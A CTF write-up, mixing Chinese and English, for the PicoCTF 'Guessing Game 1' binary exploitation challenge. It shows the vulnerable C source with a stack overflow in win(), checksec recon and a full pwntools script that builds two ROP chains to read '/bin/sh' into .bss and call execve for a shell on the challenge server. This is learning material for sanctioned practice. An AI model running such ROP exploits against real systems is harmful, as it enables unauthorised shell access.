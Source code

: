 ```yaml
---
title: PicoCTF - Guessing Game 1
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - Guessing Game 1
## Background
ROP Chain
[Linux System Call Table for x86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
## Source code
:::spoiler
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

#define BUFSIZE 100


long increment(long in) {
	return in + 1;
}

long get_random() {
	return rand() % BUFSIZE;
}

int do_stuff() {
	long ans = get_random();
	ans = increment(ans);
	int res = 0;
	
	printf("What number would you like to guess?\n");
	char guess[BUFSIZE];
	fgets(guess, BUFSIZE, stdin);
	
	long g = atol(guess);
	if (!g) {
		printf("That's not a valid number!\n");
	} else {
		if (g == ans) {
			printf("Congrats! You win! Your prize is this print statement!\n\n");
			res = 1;
		} else {
			printf("Nope!\n\n");
		}
	}
	return res;
}

void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}

int main(int argc, char **argv){
	setvbuf(stdout, NULL, _IONBF, 0);
	// Set the gid to the effective gid
	// this prevents /bin/sh from dropping the privileges
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	
	int res;
	
	printf("Welcome to my guessing game!\n\n");
	
	while (1) {
		res = do_stuff();
		if (res) {
			win();
		}
	}
	
	return 0;
}
```
:::
## Recon
1. Recon
    ```bash!
    $ file vuln
    vuln: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=94924855c14a01a7b5b38d9ed368fba31dfd4f60, not stripped
    $ checksec vuln
    [*] '/mnt/d/NTU/CTF/PicoCTF/PWN/Guessing Game 1/vuln'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    ```
    可以看到這隻程式沒有用動態連結的方式引入library，代表他都把一些libc會用到的東西編譯進去了
2. 這支程式沒有明顯讀flag的地方，所以可以直覺想到要開shell，而main function的do_stuff subfunction主要應該是類似proof of work的部分(因為亂數的範圍也只要0-99)，當猜對random的數值後就近到win function然後可以填一些東西，達到bof的效果
3. 所以也很直覺的想到one_gadget或是ROP chain的東西，這部分就比較傷腦筋，因為蓋的過程會有一點點繞，講白了這題和[^0x12_rop++]幾乎一模一樣，但因為太久沒看所以忘記了
4. 既然有bof，那我們就可以隨便的蓋rop chain，包括syscall read function，這也說明了如何寫`/bin/sh\x00`的問題
5. ==執行的順序:==
Guess random(PoW)$\to$
syscall __libc_read function$\to$
Input `/bin/sh\x00`$\to$
Return to main function$\to$
Guess random(PoW)$\to$
Syscall `execve` to get shell

Note: 要如何知道`.bss`段在哪裡可以用`readelf -S ./vuln`查看

## Exploit
```python
from pwn import *
import random

# r = process("./vuln")
r = remote("jupiter.challenges.picoctf.org", 39940)

context.arch = "amd64"

'''#############
Read /bin/sh by libc read function
#############'''
r.recvuntil(b'What number would you like to guess?\n')

while(1):
    r.sendline(str(randint(1, 99)).encode())
    tmp = r.recvline().strip().decode()
    print(tmp)
    if tmp != "Nope!":
        success("You got it!!!")
        break
    r.recvuntil(b'What number would you like to guess?\n')

print(r.recvuntil(b'Name? '))

pop_rax_ret = 0x4163f4
pop_rdi_ret = 0x400696
pop_rdx_ret = 0x44a6b5
pop_rsi_ret = 0x410ca3
main_fun_addr = 0x400c8c
libc_read_addr = 0x44a6a0
write_2_bss = 0x6b7000
syscall = 0x40137c

ROP_payload = flat(
    pop_rdi_ret, 0,
    pop_rsi_ret, write_2_bss,
    pop_rdx_ret, 9,
    libc_read_addr,
    main_fun_addr
)
# raw_input()
r.sendline(b'a' * 0x78 + ROP_payload)
r.sendline(b'/bin/sh\x00')

'''#############
Execute shell
#############'''
r.recvuntil(b'What number would you like to guess?\n')

while(1):
    r.sendline(str(randint(1, 99)).encode())
    tmp = r.recvline().strip().decode()
    print(tmp)
    if tmp != "Nope!":
        success("You got it!!!")
        break
    r.recvuntil(b'What number would you like to guess?\n')

print(r.recvuntil(b'Name? '))

ROP_payload = flat(
    pop_rax_ret, 0x3b,
    pop_rdi_ret, write_2_bss,
    pop_rsi_ret, 0,
    pop_rdx_ret, 0,
    syscall
)
# raw_input()
r.sendline(b'a' * 0x78 + ROP_payload)
r.interactive()
```
## Reference
[PicoCTF - Guessing Game 1 [Pwn]](https://cyb3rwhitesnake.medium.com/picoctf-guessing-game-1-pwn-bdc1c87016f9)
[^0x12_rop++]:[Simple PWN - 0x12(Lab - rop++)](https://hackmd.io/@SBK6401/rysBjQfjs)
